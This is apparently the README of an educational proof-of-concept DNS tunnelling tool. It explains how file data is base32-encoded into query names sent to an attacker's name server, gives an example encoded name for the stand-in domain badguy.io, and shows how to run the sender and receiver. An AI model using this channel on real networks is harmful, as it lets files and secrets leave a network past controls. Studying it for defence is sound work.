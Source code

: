 # DNS Tunneling POC

## Introduction

This is a proof of concept for a DNS tunnelling client and server, for security education. The DNS server implemented here is woefully incomplete, as the point is not to resolve names, but to participate in file transfers. The server only handles A and AAAA queries with a single name, and responds to A queries with the same IP (16.32.64.128), and to AAAA queries with a repsonse indicating an IPv6 address is not available, as per [RFC 4074 section 3](https://datatracker.ietf.org/doc/html/rfc4074#section-3).

## Theory of operation

The `dns_send` client can send a file or standard input to a remote name server controlled by an attacker. Each file transfer is identified by a uuid. Each poayload  of the data transfer  consists of the uuid, a packaet seqence number and 120 bytes of data. The payload is encoded in base 32, then included in a domain name.  This is an example of such a name, which encodes a UUID,. a sequence number and 120 bytes of data:, which obeys all of the rules for an Internet domain name:

```text
QLFGR3VWU5D37KJMLXJOKUKDJERQAAAANNXHIZRIEJLXE33UMUQCKZBAMJ4X.IZLTEB2G6IBFOMQGC5BAN5TGM43FOQQCKZC4NYRCYIDQMF4WY33BMQWT43DF.NZTXI2BMEBTGS3DFNZQW2ZJMBIQCAIBAEAQCAIBAOBQXS3DPMFSC2PTTMVYX.KZLOMNSSAKRAGEZDAKJ3BJ6QU.badguy.io
```

In attack scenario, an ttacker would register the badguy.io domain  (ffrom the name above), point the DNS server for the domain to a server running the  `dns-server` in this peoject, so that it could receive and decode the specially crafted DMS queries. Since each name query is unique, there is no concern with caching.

## Building

Run `make`. This will build `dns-server`  and `dns-send` io the `dist` directory.  See the `Makefile` for additional targets.

## Running

Start the server by running `dns-server`. As the server binds to provolehed port 53, it must be run as root (or sudo). 
The client usgae is as follows:

```shell
dns_send [file [ip]]
```

Without any paranmeters, the program reads from stdin, and uses the default system resolver to eventually reach the attacker DNS server , provided the `dns-send` program is modified to resolve the correct domain (and not badguy.io).

A file name can be specified as the first argument, in which case the file will be transmitted through as many DNS requests as needed.

An IP address can be specified as the second parameter, which is useful in cases where you do not want to set up a domainm and a server running `'dns-server`. In that case, you can run `dns-server` on any machine, including the same machine on which `dns-send` is running, and point `dns-send` at the server. While this is not a realistic attack scenario in most cases, it will demonstrate transmitting large amounts of data over DNS.

### Running on Linux

On systems using `systemd`, you will have to temporarily turn off the systemd resolver to free up port 53 (used by the POC server).

```shell
sudo systemctl stop systemd-resolved
```

Since the POC server really cannot resolve anything, you may want to edit `/etc/resolv.conf` to point to a real server, such as `8.8.8.8`

### Running on WSL

WSL requires Internet Connection Sharing which uses port 53. It is therefore not possible to run the server.

## Detecting DNS tunnelling
Due to nature of DNS tunneling, there are serveral methods to detect it, and thereafter prenvent it. See the [Detecting DNS Tunelling](https://www.sans.org/white-papers/34152/) paper from the SANS institute for examples.


## Dependencies

- Debian package `uuid-dev`
- Debian package `libbsd-dev` (not needed for BSD)

## Included open source code

Base32 encoder/decoder from [Google Authenticator PAM module](https://github.com/google/google-authenticator-libpam)


## References

- [TCP/IP Illustrated Volume 1, W. Richard Stevens](https://www.amazon.com/TCP-Illustrated-Vol-Addison-Wesley-Professional/dp/0201633469)
- https://courses.cs.duke.edu//fall16/compsci356/DNS/DNS-primer.pdf
- [RFC 4074](https://datatracker.ietf.org/doc/html/rfc4074#)
- [RFC1034](https://datatracker.ietf.org/doc/html/rfc1034)
